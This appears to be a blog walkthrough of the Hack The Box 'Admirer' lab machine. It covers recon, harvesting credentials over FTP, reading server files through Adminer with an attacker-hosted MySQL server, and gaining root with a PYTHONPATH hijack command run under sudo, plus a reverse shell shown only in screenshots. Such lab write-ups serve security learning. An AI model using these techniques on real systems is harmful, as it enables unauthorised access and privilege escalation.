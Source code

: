 ```yaml
---
layout: post
title: Admirer walkthrough HTB 
---
```



![](/images/2020-09-25-admirer/0.png)



Admirer is an easy Linux box which was interesting to root!! Let’s start with adding the IP into /etc/hosts file.

Now we will initiate a nmap scan for reconnaissance.


![](/images/2020-09-25-admirer/1.png)
Three ports seem to be open. Like any other hackers I tried to log in anonymously to ftp but failed.

So, I decided to look into web side of things.

![](/images/2020-09-25-admirer/2.png)
The source of the page seems to have nothing interesting.

From the nmap scan I know there is a robots.txt.

Woooo!! Interesting!! Let’s fuzz the /admin-dir


![](/images/2020-09-25-admirer/3.png)
I used Gobuster for this, however, tools like wfuzz, ffuz etc. can be used as well.

![](/images/2020-09-25-admirer/4.png)
Looks like two files is found
![](/images/2020-09-25-admirer/5.png)


![](/images/2020-09-25-admirer/6.png)

Wow !! we got creds!! Of course, I logged into ftp now.
![](/images/2020-09-25-admirer/7.png)

Okay there is a .sql file and a compressed file, I used GET to download it to my local machine.

The .sql wasn’t a valid database file  

Now we will look into the compressed files and there were a lot of credentials.

![](/images/2020-09-25-admirer/8.png)

![](/images/2020-09-25-admirer/9.png)

Few more php files in the utility-scripts. 

Now I spend some time using these creds to ssh into the server and horribly failed. 

Okay what can we do now? we can’t log into sql directly because sql port is not open from the nmap scan.

Umm let’s try and navigate to utility-script from web browser !! it said forbidden which means it’s a valid directory, now we will try all the php names, but nothing worked!! 

At this point, we will use gobuster again to fuzz directory and we hit jackpot with adminer.php. Now things started to make sense, adminer – admirer (word play lol).

Now I tried to login with the creds we have from the compressed files


![](/images/2020-09-25-admirer/10.png)

Fail!!

Now I googled vulnerabilities for Adminer version 4.6.2 : read this to understand how to exploit this vulnerability ( https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool )



Essentially what I had to do is to install mysql on my machine, create a database, create a table with a single column, login to my database on the web Adminer and from there I could dump any local file.



![](/images/2020-09-25-admirer/11.png)

 I created a database name admirer, created a user sa and assigned a password and granted privilege.



![](/images/2020-09-25-admirer/12.png)
Now in order to connect this remotely we will have to change the bind address which can be found at : /etc/mysql/mysql.conf.d

Change the bind address to 0.0.0.0 


![](/images/2020-09-25-admirer/13.png)

Now restart mysql server:
```
Systemctl restart mysql
```
Log in with the user we created sa:sa_admirer

![](/images/2020-09-25-admirer/14.png)

Now we can use this creds to log into : http://10.10.10.187/utility-scripts/adminer.php?server=10.10.15.249&username=sa

(10.10.15.249 = tun0 IP )


![](/images/2020-09-25-admirer/15.png)


So now that we are in, I tried to load /etc/passwd file. However, it failed because of the restriction. 



![](/images/2020-09-25-admirer/16.png)

So maybe we can open index.php?

![](/images/2020-09-25-admirer/17.png)
We just have to supply the full path, and wallah, it’s a succeeded!!   

![](/images/2020-09-25-admirer/18.png)

Now I did “select * from ad;” (ad is the table I created from mysql server)

And we get all the content of index.php which have password and username for waldo.

![](/images/2020-09-25-admirer/19.png)

Now we can try to ssh with this cred.
Hurray !! we got our user!!


![](/images/2020-09-25-admirer/20.png)

Now is the time for PRIVILEGE ESCALATION!!

First things first, use sudo -l command !!



![](/images/2020-09-25-admirer/21.png)

Looks like /opt/scripts/admin_task.sh is running as root, so I took a look into what it does and turns out the script have number of functions and the most interesting piece of code is:

```
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```
The script is calling backup.py file as root which means any actions from the python file have the same root privilege. Now the question is how to hijack the file because the file and the directory is not writable!! 

![](/images/2020-09-25-admirer/22.png)

![](/images/2020-09-25-admirer/23.png)

I found this wonderful article that explains python library hijacking.

https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

The backup.py file is calling shutil, so we will have to create a fake shutil file and make sure that python path is getting called from where we want 

![](/images/2020-09-25-admirer/24.png)

So, I created the file in /tmp/SASHUTIL and since the file is using make_archive I defined it in my fake file. I used OS library and nc for the reverse connect!!

Now I just have to make sure to run admin_task.sh file with our fake path

```
sudo PYTHONPATH=/tmp/SASHUTIL /opt/scripts/admin_tasks.sh
``` 

![](/images/2020-09-25-admirer/25.png)

And we got a connect back !! and yes, make sure to set up a listener!!


